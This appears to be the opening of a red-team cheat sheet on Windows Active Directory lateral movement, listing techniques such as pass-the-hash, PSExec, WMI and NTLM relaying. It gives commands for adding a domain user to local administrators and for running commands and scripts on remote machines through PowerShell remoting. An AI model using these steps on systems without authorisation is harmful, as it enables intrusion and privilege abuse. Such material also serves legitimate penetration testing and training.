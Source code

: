 # Lateral Movement
* [General](#General)
* [Pass The Hash](#Pass-The-Hash)
  * [Overpass The Hash](#Overpass-The-Hash)
* [Check Local Admin Access](#Check-Local-Admin-Access)  
* [Offensive .NET](#Offensive-.NET)
* [Lateral Movement Techniques](#Lateral-Movement-Techniques)
  * [PSSession](#PSSession) 
  * [PSExec](#PSExec)
  * [SC.exe](#SC.exe)
  * [Schtasks.exe](#schtasks.exe)
  * [AT](#AT)
  * [WMI](#WMI)
  * [Poisonhandler](#Poisonhandler)
  * [RDP](#RDP)
  * [ChangeServiceConfigA](#ChangeServiceConfigA)
  * [WinRM](#WinRM)
  * [DCOM](#DCOM)
  * [Named Pipes](#Named-Piped)
  * [Powershell Web access](#Powershell-Web-access)
  * [NTLM Relaying](#NTLM-Relaying)

## General
#### Add domain user to localadmin
```
net localgroup Administrators <DOMAIN>\<USER> /add
```

#### Connect to machine with administrator privs
```
Enter-PSSession -Computername <COMPUTERNAME>
$sess = New-PSSession -Computername <COMPUTERNAME>
Enter-PSSession $sess
```

#### PSremoting NTLM authetication (after overpass the hash)
```
Enter-PSSession -ComputerName <COMPUTERNAME> -Authentication Negotiate 
```

#### Execute commands on a machine
```
Invoke-Command -Computername <COMPUTERNAME> -Scriptblock {<COMMAND>} 
Invoke-Command -Scriptblock {<COMMAND>} $sess
```

#### Load script on a machine
```
Invoke-Command -Computername <COMPUTERNAME> -FilePath <PATH>
Invoke-Command -FilePath <PATH> $sess
```
